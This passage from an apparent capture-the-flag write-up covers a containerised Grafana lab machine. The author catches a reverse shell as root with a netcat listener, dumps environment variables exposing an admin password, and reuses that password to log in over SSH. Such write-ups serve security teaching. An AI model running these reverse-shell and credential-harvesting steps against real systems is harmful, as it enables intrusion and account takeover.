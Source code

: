 ## User Access

Once I obtained the reverse shell, from the hostname and the fact that I have direct root access, I can infer that I'm inside a container; therefore I'll have to find an escape vector.
```zsh
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.68] 45358
sh: 0: can't access tty; job control turned off
# whoami
root
# hostname 
7ce659d667d7
```

Having root access, I proceed to list the environment variables usually used to configure applications.
```zsh {14-15}
root@7ce659d667d7:~# env
SHELL=bash
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
TERM=xterm
AWS_AUTH_EXTERNAL_ID=
SHLVL=3
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

I find some credentials in the environment variables, so I decide to test whether they are valid by accessing via SSH.
```zsh
ssh enzo@10.10.11.68     
The authenticity of host '10.10.11.68 (10.10.11.68)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.68' (ED25519) to the list of known hosts.
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Sep 25 09:29:35 PM UTC 2025

  System load:  0.0               Processes:             223
  Usage of /:   65.4% of 6.30GB   Users logged in:       0
  Memory usage: 40%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   0%
```
